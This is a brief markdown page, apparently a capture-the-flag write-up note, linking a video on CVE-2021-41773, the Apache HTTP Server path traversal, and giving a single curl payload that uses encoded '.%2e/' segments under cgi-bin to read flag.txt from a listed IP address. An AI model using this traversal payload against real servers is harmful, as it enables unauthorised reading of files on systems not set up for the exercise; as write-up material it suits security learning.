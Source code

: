 # BLT

## [CVE-2021-41773 - Apache HTTP Server Path Traversal 0-Day - POC](https://www.youtube.com/watch?v=fLDTc2HHpS4\&t=346s)

```bash
payload = curl 'http://164.90.201.196:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'
```

![](<../.gitbook/assets/image (55).png>)
